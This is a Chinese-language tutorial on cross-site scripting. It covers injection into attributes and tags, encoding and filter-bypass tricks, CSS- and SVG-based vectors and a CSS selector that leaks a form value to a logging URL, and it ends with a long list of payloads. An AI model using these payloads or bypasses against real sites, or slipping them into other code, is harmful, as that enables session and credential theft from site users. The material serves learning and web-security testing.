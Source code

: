 ### 基本原理

#### 简介

> XSS在我看来是较为简单的漏洞，这是因为：一.它涉及的语言少，核心是Javascript，需要了解HTML、CSS（有时需了解不同浏览器的特性），后端语言和框架则不用在意，只需要关注其防护方式即可；二.类型少，只有反射性、存储型和DOM型三种；三.防御起来较为简单，只要注意对所有输出采用HTML实体编码，基本上很难产生XSS漏洞。
> 
> 虽然XSS较为简单，但其攻击方式的多样，使得其危害不小，以前听闻很多厂商都不收XSS的洞，这是我不敢苟同的。
> 
> 这里关于XSS的三种类型，之来区分一下反射型和DOM。有人说大多数DOM属于反射型，反射型很直观的特点是，在存在漏洞的地方写入JavaScript脚本后，脚本经过后端不严格的过滤又回到前端执行，对于攻击者来说，他需要构造好一个URL给被攻击者。而DOM型与此极其类似，不同的是，DOM型写的Javascript攻击脚本不会被发送到后端，因为有些场景是前端的JavaScript对输入进行操作（要非常注意innerHTML），而无需发送到后端，这个时候，如果处理输入的JavaScript没有进行严格过滤，攻击者同样可以构造恶意脚本。

#### XSS与CSRF

> XSS和CSRF有一些类似的地方，XSS的反射型和DOM漏洞都依赖于被害人点击攻击者精心构造的链接，CSRF也是这样，不同的是CSRF攻击的方式更为直接了，它无需构造什么Javascript攻击脚本，它构造的链接是目标网站本就有的功能，例如删除某一篇文章，当被害人点击这个url且浏览器本地有尚未过期的cookie时，攻击就完成了。检查CSRF是否存在的方式也很简单，只需要看referer字段是否存在并有效即可，另外，网站为了防御CSRF的攻击，也经常采用提示跳转页的方式。

### 攻击

#### 攻击的两大方式

##### 构造标签内属性

```javascript
<input type="keyword" value="attack">
```

> 假设我们在某处的输入会放在上面的value中，此时，我们可以通过构造类似下面的啊脚本完成攻击

```javascript
// 我们输入了"onclick=alert()"，闭合前面属性的值，然后后面添加了一个可以执行JavaScript脚本的属性
// 这里的onclick可以替换成许多响应事件的函数
<input type="keyword" value=""onclick=alert()"">
```

##### 构造标签

```javascript
<input type="keyword" value="attack">
```

> 与上面相同的

```javascript
// "><script>alert()</scr11ipt><"是我们输入的内容
<input type="keyword" value=""><script>alert()</script><"">
```

#### 补充：有关JavaScript伪协议

> 例如onclick="myFunc()"这样的事件可以执行JavaScript，它也支持onclick="javascript:alert();"这种伪协议的写法，在浏览器打开javascript：URL的时候，它会将url当作JavaScript代码运行，当返回值不为undefined的时候，=前的属性将会被赋值为JavaScript的执行结果。
> 
> 支持JavaScript伪协议的有src、href等可以加载链接的属性，也有例如onclick、onload这样的事件

##### \<a href="" target="\_blank">中的target="\_blank"限制JavaScript伪协议的作用

target="\_blank"属性是表明按照href的链接打开一个新窗口，当href的内容为JavaScript伪协议时，其不会生效

#### 补充：编码

##### 浏览器解码顺序

> 浏览器–>`HTML解码-->URL解码-->JavaScript解码`
> 
> https://blog.csdn.net/qq_33181292/article/details/117251090

##### html实体编码

**编码方式**

* HTML实体编码有三种写法，实体名称\&lt; 十进制实体编码\&#60; 十六进制实体编码\&#x003c。HTML实体编码可以用于编辑“数据状态中的字符引用”、“属性值状态中的字符引用” 和 “RCDATA状态中的字符引用” 
* 在线编码：[在线Html实体编码解码-HTML Entity Encoding/Decoding (config.net.cn)](https://config.net.cn/tools/HtmlEncode.html)

**无关紧要分析**

* 数据状态中的字符引用：数据状态就是解析一个标签内里面的内容，如 `<div>...</div>` 中的内容
* 属性值状态中的字符引用：属性值状态中的字符引用就好理解了，就是src，href这样的属性值中的HTML实体，他也是会先进行HTML解码的，比如下面的语句，会先对里面HTML解码，然后再继续往下执行

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```

* RCDATA状态中的字符引用:HTML中有五类元素
  
  * 空元素(Void elements)，如 `<area>`、`<br>`、`<base>` 等等。空元素不能容纳任何内容，因为它们没有闭合标签，没有内容能够放在开始标签和闭合标签中间。
  
  * 原始文本元素(Raw text elements)，有 `<script>` 和 `<style>`。原始文本元素可以容纳文本。
  
  * RCDATA元素(RCDATA elements)，有 `<textarea>` 和 `<title>`。RCDATA元素可以容纳文本和字符引用。

> 注意到注意到RCDATA元素中有\<textarea\> 和 \<title\> 两个属性并且有字符引用，也就是当实体字符出现在这两个标签里面的时候，实体字符会被识别并进行HTML编码解析。这里要再提醒一次，在解析这些字符引用的过程中不会进入“标签开始状态”，所以就不会建立新的标签，所以下面这个语句触发不了XSS，这涉及到了RCDATA的一个特殊的情况。即在浏览器解析RCDATA元素的过程中，解析器会进入“RCDATA状态”。在这个状态中，如果遇到“<”字符，它会转换到“RCDATA小于号状态”。如果“<”字符后没有紧跟着“/”和对应的标签名，解析器会转换回“RCDATA状态”，并不会进入“标签开始状态”的。**这意味着在RCDATA元素标签的内容中，唯一能够被解析器认做是标签的就只有 \</textarea\> 或者 \</title\>**，因此，在 <textarea> 和 <title> 的内容中不会创建标签，就不会有脚本能够执行了。另外，刚刚也谈到了，**`<script>` 和 `<style>`是原始文本元素，在这两个标签内部的内容只有文本，因此，html实体编码在这里无效**。

![image-20230906170541489](.\images\image-20230906170541489.png)

![image-20230906170634555](.\images\image-20230906170634555.png)

![image-20230906170658759](.\images\image-20230906170658759.png)

​    仅有\<p\>...\</p\>内的JavaScript执行

**总结**

* **属性值**可以采用html实体编码，这就意味着`onclick`等执行函数的属性和`href`等支持JavaScript伪协议的属性可以通过html实体编码绕过检测
* `<svg>`内的`<script>`内的JavaScript脚本可以使用html实体编码

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
<p onclick=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>ppp</p>
<svg><script>&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x002f;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x7f16;&#x7801;&#x002f;&#x0029;&#x003b;</script></svg>
```

##### url编码

* JavaScript伪协议有效

```html
<p>
    <!-- JavaScript无效 -->
	3号:<a href="javasc%72ipt:alert(1)">javascript中的r进行编码</a>
</p>
<p>
    <!-- 有效 -->
	4号:<a href="javascript:ale%72t(1)">alert(1)中的r进行编码</a>
</p>
<p>
    <!-- 有效 -->
	5号:<a href="javascript:alert%281)">alert(1)中的'('进行编码</a>
</p>
<!-- JavaScript无效 -->
<img src=# onclick="alert%281)"/>
<!-- JavaScript无效 -->
<img src=# onclick="javascript:alert%281)"/>
<!-- JavaScript无效 -->
<img src=# onclick="ale%72t(1)"/>
```



##### unicode编码

* 可以对属性值进行unicode编码，不能对`javascript:`和控制字符编码

```html
<p>
	<!-- JavaScript无效 -->
    3号:<a href="javasc\u0072ipt:alert(1)">javascript中的r进行编码</a>
</p>
<p>
     <!-- 有效 -->
    4号:<a href="javascript:ale\u0072t(1)">alert(1)中的r进行编码</a>
</p>
<p>
    <!-- JavaScript无效 -->
    5号:<a href="javascript:alert\u00281)">alert(1)中的(进行编码</a>
</p>
<!-- JavaScript无效 -->
<p onclick="alert\u00281")>onclick</p>
<!-- 有效 -->
<p onclick="javascript:ale\u0072t(1)")>onclick</p>
<!-- 有效 -->
<p onclick="ale\u0072t(1)")>onclick</p>
```



##### base64编码

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<!--base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg 解码：<script>alert(1)</script>-->
<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>
<!-- cPGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg== -->
<iframe src="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg=="></iframe>
```

##### 多层编码

见链接

#### 补充：注释

```html
<!--这是单行注释-->
<!--
    这是多行注释
    这是多行注释
    这是多行注释
-->
```

```css
/*这是单行注释*/

/*
    这是多行注释
    这是多行注释
    这是多行注释
*/
```

```javascript
//这是单行注释
/*
    这是多行注释
    这是多行注释
    这是多行注释
*/

// 这里输入了</address> <img src=# onerror=alert(1)//，起到了闭合前文引号的同时注释后面的引号
<img src="</address> <img src=# onerror=alert(1)//">
```

> 注释的使用：html注释常常用来闭合标签；JavaScript的注释可以在在一些不和闭合引号的地方将其注释

#### 过滤和绕过

##### 关键字过滤

* 大小写绕过
* 双写绕过
* 编码绕过
* 回车、tab、空格、注释、括号等分割引号或者script标签内的**JavaScript语句**

```javascript
/*添加空格、TAB、回车、换行：*/alert%20(/xss/)、alert%0A(/xss/)、alert%0D(/xss/)、alert%09(/xss/)
/*添加多行注释：*/alert/*abcd*/(/xss/)
/*添加注释换行：*/alert//abcd%0A(/xss/)、confirm//abcd%0D(/xss/)
/*使用''代替()：*/alert'xss'
/*使用括号分割：*/(alert)(/xss/)、((alert))(/xss/)
```

注意分割的地方，直接将一个关键字aler%20t分开是不行的，空格符分割涉及到JavaScript的**no LineTerminator here**规则和自动插入分号规则。

##### 关键字变形

* 大小写
* 编码

##### 特殊符号过滤

> 全过滤了肯定无法绕过，针对过滤不完全的情况则有很多方法，主要是有很多字符可以作为替换方案

* 过滤了引号：html可以不用引号；JavaScript可以用反引号
* 过滤了&符号阻止编码：可以使用其他编码
* 过滤了括号：有些JavaScript函数后可以不加括号，或者用 //分割
* 对url进行过滤
  * 过滤http：可以直接用\\\\代替http:\\\
  * 过滤 . :可以用。代替，有些浏览器会自动优化中文句号
* 过滤了空格
  * 使用其他空白字符代替 %0d %0a

##### 将特殊字符转化为HTML实体

* 以php为例，默认的htmlspecialchars()不过滤单引号，因此使用htmlspecialchars()时需注意合理设置
* 有的场景下，前端输入的返回是在script标签或则JavaScript伪协议内，这时htmlspecialchars()完全无效

##### 利用函数

* 这里利用一些函数就可以使用字符串拼接成JavaScript关键字和函数进行

```javascript
// window.alert("hello world")
window["ale" + "rt"]("Hello, World!");

eval("wind" + "ow.alert('Hello, World!');");

var obj = { ale: { rt: function(msg) { alert(msg); } } };
obj["ale"]["rt"]("Hello, World!");

document.write('<script>alert(document.cookie)<\/script>')
```

#### 利用CSS进行XSS

```css
/* 利用CSS中的 expression() url() regex() 等函数或特性来引入外部的恶意代码 */
/*  很多浏览器都禁用了，貌似仅IE支持 */
/*  */
<div style="background-im-age:url(javascript:alert('xss'))">
<div style="width:exp/*这里可以注释*/ression(alert('xss'));">

/* 产生的新的攻击方式 */
<style>
    #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
    #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
    #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
    [...]
</style>
<form action="http://example.com" id="form2">
    <input type="text" id="secret" name="secret" value="abc">
</form>
```

#### 与SVG有关的XSS

##### SVG标签结合html实体编码绕过

```html
<svg><script>&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x002f;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x7f16;&#x7801;&#x002f;&#x0029;&#x003b;</script></svg>
```

* 此时\<script\>内的JavaScript支持html实体编码

##### 利用svg文件上传进行XSS

> 代码中的SVG标签和onload事件本身并不依赖于其他特定的标签来触发弹窗。无论它们被放置在哪个标签内，只要浏览器解析并加载了这个SVG标签，onload事件就会被触发。
> 
> SVG标签通常是在HTML文档中嵌入使用的，并且可以放置在许多不同的HTML标签内。具体取决于网页的结构和用途。以下是一些常见的情况：

```html
<body>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</body>

<div>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</div>

<img src="data:image/svg+xml,<svg onload='alert(document.domain)'>">

<svg id="rectangle" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(location)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```

[用SVG绕过浏览器XSS审计 - r00tgrok - 博客园 (cnblogs.com)](https://www.cnblogs.com/r00tgrok/p/SVG_Build_XSS_Vector_Bypass_Firefox_And_Chrome.html)

### 利用

#### 基本方式

> XSS产生在于后端没有对输入的数据进行检查既返回前端，攻击者可构造script脚本进行提交。当使用GET方法提交数据时，可以直接构造型如url?query=<script>给被害人；当使用POST方法提交数据时，则需要我们在自己的服务器上构造一个恶意页面，使用表单的方式提交数据，注意此处我们写入的恶意脚本在哪，我们的恶意脚本并不是在在我们的恶意界面起作用，因为恶意界面由于同源策略等浏览器安全策略，是获得不了被害人在目标站点的cookie的，我们的恶意脚本是作为输入提交到了目标站点。

### 防御

* HttpOnly
* 在响应报文的header中配置X-XSS-Protection

### 附常用payload

```html
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>

<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>

<div onmouseover='alert(1)'>DIV</div>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>

<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>

<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>

<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>

<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>

<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>

<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>

<body onload="alert('xss');"></body>

<!-- css相关的xss -->
<div style="background-image:url('http://127.0.0.1/xss.gif')"></div>
<style>body {background: url('http://127.0.0.1/xss.gif')}</style>
<!-- expression()表达式在IE7及以下是有效的，在IE8及以上就失效了 -->
<div style="{left: expression(alert('xss'))}"></div>
<!-- 利用 @import 引入外部 js -->
<!-- 被引用的css body {event: expression (onload = function() {alert('XSS');})} -->
<style type="text/css">@import url(http://www.xx.css)</style>
<!-- 还可以利用 @import 直接执行 XSS 代码 -->
<style>@import "javascript:alert('xss')";</style>
```

* 整理补充

```html
<button formaction=javascript:alert(1)></button><!-- 试验过，单独无法触发xss，需配合input标签？ -->


<!-- <frame> <object>等多重嵌套，iframe内即为<object> -->
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
<iframe
src="data:text/html;base64PG9iamVjdCBkYXRhPSJkYXRhOnRleHQvaHRtbDtiYXNlNjQsUEhOamNtbHdkRDVoYkdWeWRDZ3ZlSE56THlrOEwzTmpjbWx3ZEQ0PSI+PC9vYmplY3Q+=="
></iframe>
```
